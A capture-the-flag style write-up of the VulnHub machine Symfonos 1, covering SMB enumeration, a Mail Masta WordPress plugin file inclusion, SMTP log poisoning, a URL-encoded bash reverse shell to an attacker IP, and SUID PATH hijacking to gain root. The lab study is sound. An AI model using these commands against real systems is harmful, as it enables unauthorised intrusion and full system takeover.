# Symfonos

## General Information

<h3>Difficulty:  </h3>

<h3> Operating system: Linux</h3>

<h3> Vulnerability exploited: Local File Inclusion, PATH hijacking</h3>

<h3> DAte of resolution: 27/10/2025 </h3>

<h3>Link: <a href="https://www.vulnhub.com/entry/symfonos-1,322">Symfonos</a></h3>

### *Read this document in spanish* <a href="symfonos.md">Symfonos</a>

## Recognition

Vulnhub does not provide us with the IP of the target machine **192.168.0.104**

**ARP-SCAN**

We execute the following command:

```
sudo arp-scan -I eth0 --localnet
```

<p align="center"> 

</p>

The IP is 192.168.0.104 because 08:00 is when a virtual machine is on.

I'm going to set the IP of the target mv in the **/etc/hosts** file, I'm going to call it **symfonos.localdomain** because later when performing the nmap we will check that there is a domain with that name

### Ping

Depending on the result we can deduce whether it is a Linux or Windows machine, for example:

```
ping -c 1 192.168.0.104
```

<p align="center"> 

</p>

**If the ttl is 64, therefore, it is Linux**

### Scanning for open ports

#### TCP port scanning

The command I use with nmap is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.0.104
```

<p align="center"> 

</p>

<p align="center"> 

</p>

<div align="center">

| Open port | Service     | Version                                       |
| --------- | ----------- | --------------------------------------------- |
| 22        | ssh         | OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0) |
| 25        | smtp        | Postfix smtpd                                 |
| 80        | http        | Apache httpd 2.4.25                           |
| 139       | netbios-ssn | ttl 64 Samba smbd 3.X - 4.X                   |
| 445       | netbios-ssn | ttl 64 Samba smbd 4.5.16-Debian               |

</div>

#### UDP port scanning

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn 192.168.0.104
```

<p align="center"> 

</p>

<div align="center">

| Open Port | SERVICE    |
| --------- | ---------- |
| 137       | netbios-ns |

</div>

When this port is open, it can reveal the host name, domain/workgroup, and sometimes the user name.

## Exploration

Since Samba is open (port 445 (TCP) and 139 (TCP)) which is used for file sharing, I'm going to use the rcpcclient tool.

```
rpcclient -U "" -N 192.168.0.104
```

Then, once inside I will use commands like **querydispinfo**, **enumdomusers**, **srvinfo**

<p align="center"> 

</p>

We can verify that there is a user called helios in the system.

Next, we will use the smbmap tool

```
smbmap -H 192.168.0.104
```

<p align="center"> 

</p>

We check that we can read something from the anonymous user

```
smbmap -H 192.168.0.104 -r anonymous
```

<p align="center"> 

</p>

We found a file called **attention.txt**

To view it, we download it with the following command

```
smbmap -H 192.168.0.104 --download anonymous/attention.txt
```

<p align="center"> 

</p>

```
cat 192.168.0.104-anonymous_attention.txt
```

<p align="center"> 

</p>

Possible passwords for the user helios are **epidioko**, **qwerty**, and **baseball**

After testing which one is the correct one...

```
smbmap -H 192.168.0.104 -u helios -p qwerty
```

<p align="center"> 

</p>

We go into the helios directory

```
smbmap -H 192.168.0.104 -u helios -p qwerty -r helios
```

<p align="center"> 

</p>

We download both files and view them.

```
smbmap -H 192.168.0.104 -u helios -p qwerty --download helios/research.txt
smbmap -H 192.168.0.104 -u helios -p qwerty --download helios/todo.txt
```

<p align="center"> 

</p>

We found a new route

In the browser we put http://symfonos.local/h3l105/

<p align="center"> 

</p>

Then, investigating the page, we found how to log in to WordPress and realized that the **admin** user exists within WordPress using the **wpscan** tool. I tried brute-forcing the password but was unsuccessful.

Remember, whenever we have a WordPress page, we always use this tool to see if it has any plugins enabled, and thus be able to exploit the vulnerability.

```
wpscan --url http://192.168.0.104/h3l105/ -e u,p
```

<p align="center"> 

</p>

Apparently, no plugins were found. Another way to find plugins is to use this clever command.

```
curl http://192.168.0.104/h3l105/ | grep 'wp-content' 
```

<p align="center"> 

</p>

With this trick, we have found plugins like **site-editor** and **mail.masta**.

Next, we will exploit mail.masta, which is a commonly exploited plugin.

<p align="center"> 

</p>

Inside the page...

<p align="center"> 

</p>

Therefore our URL would be as follows:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

control + u
```

<p align="center"> 

</p>

We can view the /etc/passwd file and verify that the user **helio** exists.

## Explotation

On the other hand, we have port 25 open smtb, which means we can share files, so we will try to send a malicious file, and then do a reverse shell.

First we will write this command.

```
nc symfonos.local 25
```

We can run a test to see if it works.

```
EHLO empe
```

<p align="center"> 

</p>

We check that it works, now we will send the malicious file with the following commands

```
MAIL FROM: <Puede inventarte el email>
RCPT TO: <Escribes un usuarios que existe en el sistema>
DATA
```

<p align="center"> 

</p>

Below I'll explain what to write after DATA. That would be the contents of the malicious file. Then, at the end, we write a . to complete the process.

The next step is to find out where this newly created file is stored. So, we search Google.

```
In which Linux directory is what I write on port 25 SMTB saved?
```

<p align="center"> 

</p>

Therefore our URL would be as follows:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
```

<p align="center"> 

</p>

With this test successfully completed, we can now execute a reverse shell.

Next, we'll do the following:

Code the connectors in this code:

```
bash -c "sh -i >& /dev/tcp/192.168.0.103/4444 0>&1"
```

by:

**>** → %3E

& → %26

Therefore, it would be:

```
bash -c "sh -i %3E%26 /dev/tcp/192.168.0.103/4444 0%3E%261"
```

Therefore, the URL would be:

```
symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=bash -c "sh -i %3E%26 /dev/tcp/192.168.0.103/4444 0%3E%261"
```

We prepare the listening port:

```
nc -lvnp 4444
```

<p align="center"> 

</p>

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
### Privilege Escalation

#### First command:

```
sudo -l
```

Nothing

#### Second command:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

We check that it is /opt/status check

<p align="center"> 

</p>

From what we see it is a curl, we check who owns it

<p align="center"> 

</p>

It is **root**, so the idea now would be to use PATH in our favor to be root, for this we have to do the following:

We edit the content of /opt/statuscheck (curl) with:

```
echo chmod u+s /bin/bash > curl
```

Then we give all the permissions to curl:

```
chmod 777 curl
```

and finally, we execute it:

```
export PATH=.:$PATH
/opt/statuscheck
bash -p
```

<p align="center"> 

</p>

## Conclusion

This machine on the VulnHub platform, called **Symfonos 1**, struck me as very curious and entertaining. I started by exploring the SMB (SAMBA) shares, where I found an interesting path. I then discovered that the website was a WordPress site. I used the **wpscan** tool to search for vulnerable plugins and potential exploit points, but found nothing useful.

Since there were no results, I decided to follow a more manual approach to find out which plugins were installed. This way, I discovered that the **Mail Masta** plugin was active, and I exploited it by uploading a malicious file through it. This gave me a reverse shell and initial access to the system.

To escalate privileges, I ran the command:

```
find / -perm -4000 2>/dev/null
```

and found a binary with SUID permissions in the `/opt/statuscheck` path. That binary used `curl` and belonged to the root user. I moved to the `/tmp` directory and replaced the contents of `curl` with one that executed `bash` with the file's privileges. I executed it and gained root access, which allowed me to obtain the final flag.

In short, it's a pretty interesting machine, where you learn a lot, review concepts, and also discover new techniques.